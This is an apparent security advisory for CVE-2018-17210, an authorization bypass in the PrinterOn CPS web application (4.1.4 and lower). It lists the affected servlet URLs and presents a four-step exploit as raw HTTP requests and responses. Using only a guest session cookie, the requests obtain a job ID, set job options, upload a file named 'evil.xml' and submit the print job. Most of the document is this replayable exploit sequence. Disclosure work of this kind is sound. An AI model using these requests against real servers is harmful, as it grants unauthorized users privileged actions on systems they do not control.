 # CVE-2018-17210-Authorization bypass on core Print Job components-PrinterOn

The PrinterOn web application, 4.1.4 and lower, does not perform session validation checks on important webpages that manage the Printjob workflow. This allows unprivileged users (guest) to perform actions that would otherwise require the privileges of regular or administrative users within the application.

### Affected Components:

<table>
	<tr>
		<th>Application</th>
		<th>Vulnerable URL</th>
	</tr>
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/SelectPrinter</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/servlet/StoreOptions</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/iframe/Submit</td>
	</tr>	
	<tr>
		<td>PrinterOn CPS v4.1.4</td>
		<td>/cps/servlet/SubmitRequestServlet</td>
	</tr>	
</table>

### Evidence:
- Server Configuration:

<img src="Server_config.png">

- No printers shown for Guest/Login Bypass Users:

<img src="No_Printers.png">

- Exploit in 4 Steps:

1) Get Job ID:

##### REQUEST 1:

```
GET /cps/servlet/StoreOptions?redirectUrl=SelectOptions&jobDestination=[PRINTER_ID] HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
```

##### RESPONSE 1:

```
HTTP/1.1 302 
Location: /cps/SelectOptions?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

2) Set Job Parameters:

#### REQUEST 2:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------425617494394984140183030477
Content-Length: 3517

-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="redirectUrl"

SelectOptions2
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="jobId"

[JOB_ID]
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="documentURI_file"; filename="evil.xml"
Content-Type: application/octet-stream

<--SNIP-->
-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="documentURI_uri"


-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="poCopies"


-----------------------------425617494394984140183030477
Content-Disposition: form-data; name="PageRange1"

<--SNIP--> 
```

##### RESPONSE 2:

```
HTTP/1.1 302 
Location: /cps/SelectOptions2?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

##### REQUEST 3:

```
POST /cps/servlet/StoreOptions HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------87467021316423554081259258406
Content-Length: 911

-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="redirectUrl"

RequestSubmitted
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="jobId"

[JOB_ID]
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poMediaSizeNum"

1
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poDuplex"

Simplex
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poColor"

0
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="poOrientation"

AsSaved
-----------------------------87467021316423554081259258406
Content-Disposition: form-data; name="Submit"

CONTINUE
-----------------------------87467021316423554081259258406--
```

##### RESPONSE 3:

```
HTTP/1.1 302 
Location: /cps/RequestSubmitted?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

3) Start Job:

##### REQUEST 4:

```
GET /cps/iframe/Submit?jobId=[JOB_ID] HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[GUEST_COOKIE] 
```

##### RESPONSE 4:

```
HTTP/1.1 200
<--SNIP--> 
Content-Length: 6681
Server: PrinterOn

<--SNIP--> 

<h3>Submitting Job</h3>
    </div>
    <div class="jumbotron-contents">
        <div class="standardfont color1 text-center">
            Time Elapsed
            <br>
            00:00
        </div>
        <div>
            <img class="spinner" src="/cps/images/ajax-loader.gif"/>
        </div>

        <br>

        <div class="row text-center">
            Submitting your job... please wait.
        </div>

<--SNIP-->  
```

4) Submit Job to Servlet:

##### REQUEST 5:

```
POST /cps/servlet/SubmitRequestServlet HTTP/1.1
Host: YY.YY.YY.YY
Cookie: JSESSIONID=[COOKIE_OBTAINED_FROM_AUTHENTICATION_BYPASS] 
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

jobId=[JOB_ID]
```

##### RESPONSE 5:

```
HTTP/1.1 302 
Location: /cps/iframe/Confirmation?jobId=[JOB_ID]
Content-Language: en-US
Content-Length: 0
Connection: close
Server: PrinterOn
```

##### RESULT:

<img src="Authorization_Bypass.png">
